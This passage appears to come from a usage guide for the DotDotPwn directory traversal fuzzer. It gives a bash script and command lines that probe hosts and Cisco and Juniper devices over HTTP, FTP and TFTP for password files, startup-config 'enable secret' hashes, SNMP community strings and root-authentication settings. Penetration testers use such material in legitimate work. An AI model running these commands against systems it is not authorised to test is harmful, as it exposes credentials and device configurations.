 ### Network Scanning with Multiple Protocols

**Scenario**: Comprehensive network assessment using multiple protocols.

```bash
#!/bin/bash
# Multi-protocol network assessment

TARGET="192.168.1.100"

echo "=== HTTP Assessment ==="
python dotdotpwn.py --module http --host "$TARGET" --pattern "root:" --depth 8 --quiet

echo "=== HTTPS Assessment ==="
python dotdotpwn.py --module http --host "$TARGET" --ssl --pattern "root:" --depth 8 --quiet

echo "=== FTP Assessment ==="
python dotdotpwn.py --module ftp --host "$TARGET" --pattern "confidential" --depth 6 --quiet

echo "=== TFTP Assessment ==="
python dotdotpwn.py --module tftp --host "$TARGET" --pattern "config" --depth 4 --quiet

echo "Assessment complete!"
```

## 🔧 Network Device Testing

### Router and Switch Testing

**Scenario**: Testing Cisco, Juniper, and other network devices.

#### Cisco Device Testing
```bash
# Test Cisco router via HTTP
python dotdotpwn.py --module http --host 192.168.1.1 --file startup-config --pattern "hostname" --depth 6

# Test via TFTP
python dotdotpwn.py --module tftp --host 192.168.1.1 --file startup-config --pattern "enable secret" --depth 4

# Test with SNMP-based web interface
python dotdotpwn.py --module http --host cisco-router.company.com --port 8080 --pattern "Community" --file snmp.conf --depth 8
```

#### Juniper Device Testing
```bash
# Juniper device configuration
python dotdotpwn.py --module http --host juniper.device.com --file juniper.conf --pattern "root-authentication" --depth 6

# Test via SSH file access (if web interface available)
python dotdotpwn.py --module http --host juniper.device.com --file /var/log/messages --pattern "kernel" --depth 8
```
